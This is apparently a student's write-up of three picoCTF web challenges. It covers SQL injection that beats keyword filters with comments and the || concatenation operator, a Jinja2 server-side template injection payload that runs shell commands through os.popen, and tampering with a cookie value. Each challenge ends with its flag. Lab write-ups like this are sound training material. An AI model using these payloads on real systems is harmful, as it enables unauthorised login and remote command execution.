









# 1. Web Gauntlet 

Can you beat the filters?
Log in as admin http://shape-facility.picoctf.net:64164/ http://shape-facility.picoctf.net:64164/filter.php

## Solution:

1.We are given two links,upon opening the links we can see a login page and a page with some text   

and text on the second page is 

```
Round1: or
```
<br>
2.I start by inputting a random username and password to see what kind of error is shown.However along with an error,the page also shows an sql command.This makes me believe that this challenge is based on sql injection.


Now we need to give the username such that it breaks the sql command and prevents the page from fetching any password.I first try using 'or', however that does not take me anywhere,this makes me conclude that the text on page 2 tells us what is restricted.For the second try i use '--',this is used to make comments in sql.Using that I am hoping that the page is unable to fetch the password from the database.So to test my theory I enter "admin'--" in the admin field and enter a random password.


This is accepted by the page and I move on to the next round.The final sql query would look like
```
SELECT * FROM users WHERE username='admin' --' AND password='pico'
```
<br>
3.Now on after reaching round 2,I check page 2 and see that new restrictions have been applied.
```
Round2: or and like = --
```
However '--' is not the only way SQL supports comments, we can use '/* */' to write multiline comments.


This works and we move to round 3.The final sql query would look like
```
SELECT * FROM users WHERE username='admin' /*' AND password='pass'
```
<br>
4.Again checking page 2,I find new restrictions.

```
Round3: or and = like > < --
```

Seeing how our multiline comment injection is still not restricted I just use that again and we move to the next round.
<br>

5.Checking page 2,I find more new restrictions.

```
Round4: or and = like > < -- admin
```

Now the word admin has been banned,I need to find a way to input admin.First I think of using the concat() function,however upon thinking a bit it does not seem feasible as the input I give is between quotes and due to that it will be taken as a string.Then I try to use '+' operator to add two strings to make the word admin,however that fails.Upon further research ,I find a concat operator '||' and try using that.


This is succesful and I move on to the next round.The sql query would look like
```
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='pass'
```
<br>
6.Round 5 the final round upon logging in on this page,we should get the flag.Like always,I check page 2 for restrictions
```
Round5: or and = like > < -- union admin
```
Seeing how our concat operator and multiline comment trick are still not restricted,I just try using that again.
It works and I am shown a message.


Going to page 2,I can see the final flag!


The sql query would be:
```
ad'||'min'/*
```

## Flag:
```
picoCTF{y0u_m4d3_1t_79a0ddc6}
```

## Concepts learnt:

- Concantenation operator(Double Pipe ||):Used to join two or more strings.

## Resources:

- geeksforgeeks(https://www.geeksforgeeks.org/sql/sql-concatenation-operator/)

***

# 2. SSTI1 

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:

1.Upon accessing the provided URL,I found a simple webpage with a text input field and a button.

It displays back whatever I input in the field


2.Upon doing some research on SSTI(Server-Side Template Injection),I give a prompt
```
{{'a'+'b'}}
```
The output is


3.To confirm that this is Jinja 2 and that we can run commands,I give the input
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
and we get the output


4.Now that we have confirmed our suspicions we can check the files present in the directory using
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```


5.Upon opening the file present in the directory we get the flag,we use the input
```
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```



## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_dcdca99a}
```

## Concepts learnt:

- Polyglot Payloads: You learn how to use simple expressions, often called polyglot payloads (e.g., {{ 7 * 7 }} or {{ 'a' + 'b' }}), to test for the vulnerability. If the result is the computed answer (49 or ab) instead of the raw text, the server is executing the input.
- Engine Fingerprinting: learnt how identify the specific template engine (Jinja2, Twig, ERB, etc.) to successfully exploit the vulnerability. This is often done by observing how the engine handles unique syntax or operations.


## Resources:

- Testing for Server-side Template Injection(https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection)
- Server-side template injection(https://portswigger.net/web-security/server-side-template-injection)


***

# 3. Cookies

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:54219/

## Solution:

1.The link takes us to a webpage with a input box and a button.


2.I open the developer tab and go to the cookies tab and see one cookie named 'name' with value -1


3.I input 'snickerdoodle' and the page gives a response and the value in the cookie 'name' changes to 0


4.I look up most famous cookies and try entering the top 10 names.I input 'Chocolate chip' and the value in the cookie 'name' changes to 1.


5.From this process I conclude that different values of the cookie 'name' will result in different cookie names at the output.Now we just need to cycle through numbers till we get some information to move forward.I got lucky and found the flag when i changed value of cookie 'name' to 18


## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}
```

## Concepts learnt:

- Client-Side Data Storage: Learned that web applications use cookies to store user-specific data on the client's browser. This data is sent back to the server with every request.
- Cookie Manipulation: Understood that if an application relies solely on an unvalidated cookie value (like name) to determine content, an attacker can manipulate that value to access unauthorized data.


## Resources:

- Cookie Management (Browser Developer Tools)
- Understanding Cookies in Web Browsers(https://www.geeksforgeeks.org/websites-apps/understanding-cookies-in-web-browsers/)

***